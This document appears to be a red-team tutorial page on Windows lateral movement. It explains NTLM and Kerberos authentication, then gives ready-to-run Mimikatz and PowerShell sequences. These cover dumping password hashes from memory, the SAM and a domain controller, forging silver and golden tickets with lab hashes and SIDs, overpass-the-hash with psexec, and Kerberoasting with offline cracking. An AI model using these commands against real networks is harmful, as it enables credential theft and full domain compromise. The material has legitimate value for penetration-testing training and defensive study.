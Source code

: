 ## Windows Authentication

### LM
Was being used by default before windows vista, windows server 2008 (Weak hashing algorithm).

### NT Hash (NTLM)
Currently used for storing passwords at windows systems (Used for pass-the-hash attack).

### LM & NTLM Dump
```
# Dump from memory (Mimikatz)
privilege::debug
sekurlsa::logonpasswords

# Dump from SAM database
reg save HKLM\sam sam
reg save HKLM\system system
lsadump::sam /system:system /sam:sam //Mimikatz

# Dump from Domain Controller
lsadump::dcsync /domain:marvel.local /all /csv //Mimikatz (needs domain admin)
```

### NTLMv1 (Net-NTLMv1)
Not stored locally, used on the fly while authentication.

### NTLMv2 (Net-NTLMv2)
Same as NTLMv1, just with some modification on the encryption algorithm.

### NTLM Authentication Mechanism
- The user enters his username and password.
- The client initiates a negotiation request with the server, that request includes any information about the client capabilities as well as the Dialect or the protocols that the client supports.
- The server picks up the highest dialect and replies through the Negotiation response message then the authentication starts.
- The client then negotiates an authentication session with the server to ask for access.
- The server responds to the request by sending an NTLM challenge.
- The client then encrypts that challenge with his own pre-entered password’s hash (NTLM Hash) and sends his username, challenge, and challenge-response back to the server (Net-NTLM Hash).
- The server tries to encrypt the challenge as well using its own copy of the user’s hash (NTLM Hash) which is stored locally on the server in case of local authentication, or pass the information to the domain controller in case of domain authentication, comparing it to the challenge-response, if equal then the login is successful.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen1.png?raw=true)

Note: To use NTLM authentication instead of Kerberos authentication, access IP addresses instead of Hostnames dir \\10.0.2.100\c$.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen2.png?raw=true)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen3.png?raw=true)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen4.png?raw=true)

LM / NTLM Hashes are used for Pass-The-Hash attacks, while Net-NTLMv1 / Net-NTLMv2 Hashes are used for NTLM Relay attacks.

Pass-The-Hash will do all the same previous authentication process because of all this process based on the user's hash, not the user's password.

NTLM Relay attack takes place at the Session Setup Request Authentication step.

## Kerberos Authentication

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen5.png?raw=true)

- The client hashes the user’s password, uses that hash to encrypt the current timestamp, and sends the encrypted timestamp to the KDC. The KDC already has a copy of the user’s hash so it uses the hash and tries to decrypt that message to retrieve the timestamp. If the decryption is successful, then the KDC knows that the client used the correct hash and hence proved his identity to that KDC.
- The Authentication service (AS) replies with two messages:
	- A session key encrypted using the user’s hash, that key will be used for future messages.
	- TGT (ticket-granting ticket), That TGT contains information regarding the user and his privileges on the domain, This message is encrypted using the hash of the KRBTGT account’s password. That hash is known only to the KDC, so only the KDC can decrypt the TGT.
- The client now has the TGT, he then requests a ticket to access the service he wants, so the client encrypts that request using the session key and sends it to the KDC which will decrypt and validate it. The TGT is also sent in that request.
- After validating the TGT the KDC responds with two messages:
	- A message specialized for the targeted service, encrypted with the service’s hash which is stored at the KDC, this includes the information in the TGT as well as a session key.
	- A message for the client containing a session key for further requests between the client and the service he asked to access, which is encrypted using the key retrieved from the AS-REP step.
- The client presents the message (TGS) from the TGS-REP step while connecting to the service along with an encrypted part, called authenticator message, this part includes the user’s name and timestamp which was encrypted and will be decrypted using the service session key. Then compare the username and timestamp from the TGS with the username and timestamp from the authenticator message.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen6.png?raw=true)

### Silver Ticket (Forged TGS)
```
# Silver Ticket
mimikatz # kerberos::golden /user:administrator /domain:marvel.local /sid:S-1-5-21-410602843-3916082903-3170366279 /target:hydra-dc /service:cifs /rc4:86bafceb975cb8237cf2d390faa04074 
mimikatz # kerberos::ptt ticket.kirbi

# CMD
klist
dir \\hydra-dc\c$
```

- user: Username, this can be any user, even an invalid one will work.
- domain: The domain name.
- sid: Domain sid, can be obtained via many methods, whoami /user is one.
- target: Target machine.
- service: The service name, CIFS as am accessing filesharing service.
- rc4: NTLM hash of the target service.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen7.png?raw=true)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen8.png?raw=true)

Note: we can use the target machine hash as the service hash for filesharing service (CIFS).

### Golden Ticket (Forged TGT)
```
# Dump krbtgt hash (run as domain admin)
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:marvel.local /all /csv

# Golden Ticket
mimikatz # kerberos::golden /user:invaliduser /domain:marvel.local /sid:S-1-5-21-410602843-3916082903-3170366279 /rc4:249030b29d08621192b77cb5c8580fad 
mimikatz # kerberos::ptt ticket.kirbi
exit

# CMD
klist
dir \\hydra-dc\c$
```

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen9.png?raw=true)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Screen10.png?raw=true)

In the golden ticket, you’re not restricted to a single service, you got the KRBTGT, you can create your own TGT, so you can create a TGS for any service you want.

### OverPass The Hash
```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:administrator /domain:marvel.local /ntlm:ead0cc57ddaae50d876b7dd6386fa9c7

# New CMD (use hostname instead of IP to authenticate using Kerberos)
dir //hydra-dc/c$
psexec //hydra-dc cmd
```

### Kerbroasting
```
git clone https://github.com/nidem/kerberoast

# Get all SPNs
.\GetUserSPNs.ps1

# Request ticket for specific service
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "Hydra-DC/SQLService.MARVEL.local:60111" 

# Extract the tickets from memory
mimikatz # kerberos::list /export

# Crack the ticket
python tgsrepcrack.py wordlist.txt Administrator@Hydra-DC~SQLService.MARVEL.LOCAL.kirbi
```
